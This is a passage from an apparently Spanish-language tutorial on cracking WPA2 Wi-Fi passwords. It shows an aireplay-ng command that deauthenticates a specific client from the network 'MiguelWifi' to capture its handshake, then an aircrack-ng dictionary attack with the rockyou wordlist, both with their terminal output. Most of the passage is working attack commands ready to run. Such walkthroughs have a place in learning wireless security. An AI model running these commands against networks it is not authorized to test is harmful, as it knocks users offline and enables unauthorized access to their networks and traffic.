 ```bash
```

- El **-0** nos permite deautenticar una estación de una red inalambrica lo vamos a expulsar para que cuando se vuelva a conectar se genere el **handshake** y lo podamos capturar. 

- Vamos a emitir 10 paquetes de deautenticacion del punto de acceso.

```bash
❯ aireplay-ng -0 15 -e MiguelWifi -c 80:30:49:81:DC:AD wlan0mon
03:21:06  Waiting for beacon frame (ESSID: MiguelWifi) on channel 1
Found BSSID "C6:BF:FD:55:E2:F7" to given ESSID "MiguelWifi".
03:21:07  Sending 64 directed DeAuth (code 7). STMAC: [80:30:49:81:DC:AD] [ 0|47 ACKs]
03:21:07  Sending 64 directed DeAuth (code 7). STMAC: [80:30:49:81:DC:AD] [38|72 ACKs]
03:21:08  Sending 64 directed DeAuth (code 7). STMAC: [80:30:49:81:DC:AD] [63|68 ACKs]
03:21:08  Sending 64 directed DeAuth (code 7). STMAC: [80:30:49:81:DC:AD] [61|57 ACKs]
03:21:09  Sending 64 directed DeAuth (code 7). STMAC: [80:30:49:81:DC:AD] [70|75 ACKs]
03:21:10  Sending 64 directed DeAuth (code 7). STMAC: [80:30:49:81:DC:AD] [61|64 ACKs]
03:21:10  Sending 64 directed DeAuth (code 7). STMAC: [80:30:49:81:DC:AD] [61|84 ACKs]
03:21:11  Sending 64 directed DeAuth (code 7). STMAC: [80:30:49:81:DC:AD] [61|63 ACKs]
03:21:12  Sending 64 directed DeAuth (code 7). STMAC: [80:30:49:81:DC:AD] [61|81 ACKs]
03:21:12  Sending 64 directed DeAuth (code 7). STMAC: [80:30:49:81:DC:AD] [58|79 ACKs]
03:21:13  Sending 64 directed DeAuth (code 7). STMAC: [80:30:49:81:DC:AD] [63|64 ACKs]
03:21:14  Sending 64 directed DeAuth (code 7). STMAC: [80:30:49:81:DC:AD] [42|67 ACKs]
03:21:14  Sending 64 directed DeAuth (code 7). STMAC: [80:30:49:81:DC:AD] [60|64 ACKs]
03:21:15  Sending 64 directed DeAuth (code 7). STMAC: [80:30:49:81:DC:AD] [47|72 ACKs]
03:21:16  Sending 64 directed DeAuth (code 7). STMAC: [80:30:49:81:DC:AD] [31|75 ACKs]
```

- Esto lo que hice fue expulsar al cliente de la red y ahora ya capturamos el **Handshake** ya se conecte automáticamente.

<p align="center">
<img src="/assets/wifi/hacking-wpa2/web7new.png">
</p>

- Procedemos a crackear para ver la contraseña. 

```bash
❯ aircrack-ng -w /usr/share/wordlists/rockyou.txt Captura-02.cap
Reading packets, please wait...
Opening Captura-02.cap
Read 6933 packets.


                               Aircrack-ng 1.6 

      [00:00:00] 115/10303727 keys tested (576.74 k/s) 

      Time left: 4 hours, 57 minutes, 45 seconds                 0.00%

      [00:00:00] 299/10303727 keys tested (880.17 k/s) 

      Time left: 3 hours, 15 minutes, 6 seconds                  0.00%

      [00:00:00] 451/10303727 keys tested (915.48 k/s) 

      Time left: 3 hours, 7 minutes, 34 seconds                  0.00%

      [00:00:01] 555/10303727 keys tested (928.10 k/s) 

```